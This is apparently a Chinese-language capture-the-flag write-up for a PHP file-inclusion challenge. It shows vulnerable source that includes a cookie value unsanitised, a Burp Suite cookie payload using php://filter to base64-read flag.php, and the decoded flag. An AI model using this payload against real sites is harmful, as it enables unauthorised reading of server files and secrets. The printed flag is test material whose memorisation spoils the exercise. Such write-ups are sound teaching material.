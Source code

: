 # fileinclude

题目


Notice: Undefined index: language in /var/www/html/index.php on line 9
Please choose the language you want : English or Chinese

Hi,EveryOne,The flag is in flag.php

---

查看源码

```
<html>
<head><meta http-equiv="Content-Type" content="text/html; charset=utf-8" /></head>

<br />
<b>Notice</b>:  Undefined index: language in <b>/var/www/html/index.php</b> on line <b>9</b><br />
Please choose the language you want : English or Chinese
<h1>Hi,EveryOne,The flag is in flag.php</h1><html>
<head><meta http-equiv="Content-Type" content="text/html; charset=utf-8" /></head>

<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];    
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
</html></html>
```
关键行 
```
<b>Notice</b>:  Undefined index: language in <b>/var/www/html/index.php</b> on line <b>9</b><br />

$lan = $_COOKIE['language'];  
```
* lan 需要在cookie中的内容language 会被传到变量$lan
* 如果 变量lan 为 0 则 set cookie为 "language","english" 
* 如果为 非0，则执行
```
@include($lan.".php");
```
* 结合题目 flag 在 flag.php中
* 所以只需要将 lan 值 赋值为 “/var/www/html/flag”

---
### Brupsuit
![img.png](imgs/addcookies.png)


```
cookies
  Name：language
  Value：php://filter/read=convert.base64-encode/resource=/var/www/html/flag
```
* php://filter/read=执行文件读取功能
* convert.base64-encode
* forword之后 得到 字符串 base64 解码后得到flag

```
PD9waHANCiRmbGFnPSJjeWJlcnBlYWNlezlhOTJjYjE2YzNjM2NlMzY1M2E1ODYwYmIzYjE1NjAzfSI7DQo/Pg==

<?php
$flag="cyberpeace{9a92cb16c3c3ce3653a5860bb3b15603}";
?>
```